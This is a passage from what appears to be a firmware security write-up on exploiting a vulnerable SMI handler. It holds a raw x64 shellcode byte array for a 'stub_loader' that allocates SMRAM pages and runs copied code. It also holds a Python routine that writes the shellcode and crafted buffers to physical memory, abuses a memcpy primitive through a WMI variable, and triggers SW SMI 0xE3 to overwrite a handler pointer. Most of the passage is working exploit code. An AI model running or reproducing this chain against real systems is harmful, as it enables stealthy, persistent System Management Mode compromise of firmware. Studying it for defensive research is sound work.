 ```
        b'\x00', b'\xEB', b'\x74', b'\x48', b'\x83', b'\x64', b'\x24', b'\x30',
        b'\x00', b'\x4C', b'\x8D', b'\x4C', b'\x24', b'\x30', b'\xBA', b'\x05',
        b'\x00', b'\x00', b'\x00', b'\x33', b'\xC9', b'\x44', b'\x8D', b'\x42',
        b'\xFC', b'\x41', b'\xFF', b'\x52', b'\x60', b'\x48', b'\x8B', b'\x0C',
        b'\x25', b'\x00', b'\x05', b'\x00', b'\x00', b'\x48', b'\x85', b'\xC0',
        b'\x75', b'\x3B', b'\x4C', b'\x8B', b'\x4C', b'\x24', b'\x30', b'\x45',
        b'\x33', b'\xC0', b'\x4C', b'\x89', b'\x0C', b'\x25', b'\x20', b'\x05',
        b'\x00', b'\x00', b'\x44', b'\x39', b'\x41', b'\x10', b'\x76', b'\x1B',
        b'\x33', b'\xD2', b'\x48', b'\x8B', b'\x01', b'\x41', b'\xFF', b'\xC0',
        b'\x8A', b'\x0C', b'\x02', b'\x41', b'\x88', b'\x0C', b'\x11', b'\x48',
        b'\xFF', b'\xC2', b'\x48', b'\x8B', b'\x0F', b'\x44', b'\x3B', b'\x41',
        b'\x10', b'\x72', b'\xE7', b'\x48', b'\x8B', b'\x07', b'\x48', b'\x83',
        b'\x60', b'\x14', b'\x00', b'\xEB', b'\x12', b'\x48', b'\xC7', b'\x41',
        b'\x14', b'\xEE', b'\x00', b'\x00', b'\x00', b'\xEB', b'\x08', b'\x48',
        b'\xC7', b'\x40', b'\x14', b'\xFE', b'\x00', b'\x00', b'\x00', b'\x48',
        b'\x83', b'\xC8', b'\xFF', b'\x48', b'\x83', b'\xC4', b'\x20', b'\x5F',
        b'\xC3', b'\xCC', b'\xCC', b'\xCC',
    ]
```

`stub_loader` only has one job: allocate pages in SMRAM and copy the contents of `CommBuffer->source` to the new page. It then saves the newly allocated page address to `Config->DispatchFunction` and calls that address for all other subsequent SW SMIs. It always returns -1, which causes the vulnerable SMI handler to exit without running any other code.

I use my new memcpy code to write the `stub_loader` shellcode over `g_SetVarPtrs` address (see the very top for the SMI handler pseudocode if you missed it). This way, no call bytecode has to be modified.

<div class="example">
</div>
```
def copy_stub_loader(self):
    shellcode_size = len(Shellcode.STUB_LOADER)
    self.cs.helper.write_phys_mem(self.ShellCodeBufferAddress, shellcode_size, b''.join(Shellcode.STUB_LOADER))

    combuffer = COMBUFF()
    combuffer.source = self.ShellCodeBufferAddress
    combuffer.size = shellcode_size
    combuffer.dest = self.StubAddress #g_SetVarPtrs

    self.cs.helper.write_phys_mem(
            self.ComBuffAddress, ctypes.sizeof(COMBUFF), bytes(combuffer))

    config = self.gen_config()

    self.cs.helper.write_phys_mem(
            self.ConfigAddress, ctypes.sizeof(CONFIG), bytes(config))

    print("Config written to " + hex(self.ConfigAddress))
    print("Commbuffer @ " + hex(self.ComBuffAddress))
    print("Stub loader shellcode @ " + hex(self.ShellCodeBufferAddress))
    print("Stomping all over " + hex(self.StubAddress))

    primitive = self.ComBuffAddress.to_bytes(8, "little") # essentially the same as CopyMem()
    data = self.gen_bad_var_data(write_primitive=primitive)

    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

